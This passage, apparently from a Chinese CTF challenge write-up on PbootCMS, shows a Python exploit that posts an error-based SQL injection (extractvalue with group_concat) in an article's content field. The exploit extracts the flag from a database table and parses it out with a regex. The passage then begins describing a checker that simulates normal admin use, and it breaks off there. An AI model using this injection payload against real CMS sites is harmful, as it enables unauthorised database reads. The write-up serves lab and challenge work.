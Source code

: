    ```python
               "scode": "3",
               "title": "checkit",
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-12+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
               pbootcms.ay_aFlag)))) or ' '''
       }
       r = requests.post(url, data, headers=headers)
       return r.text
   ```

4. 获取 flag

   ```python
   def getflag():
       flagg=senExp()
       flagg = re.findall(r'''~flag{(.+?)}~''', flagg)
       return "flag{"+flagg[0]+"}"
   ```

下面是主函数：

```python
import re
import requests
from bs4 import BeautifulSoup
if __name__ == '__main__':
    print(getflag())
```

### Check 设计

Check 的主要原则是模拟用户正常使用漏洞点的地方。

> 对于漏洞三的 check 需要模拟后台登录，然后再新增文章初进行文章的新增操作，对于文章内容去随机内容，并检查是否新增成功。

该 check 程序主要分为以下几个步骤：
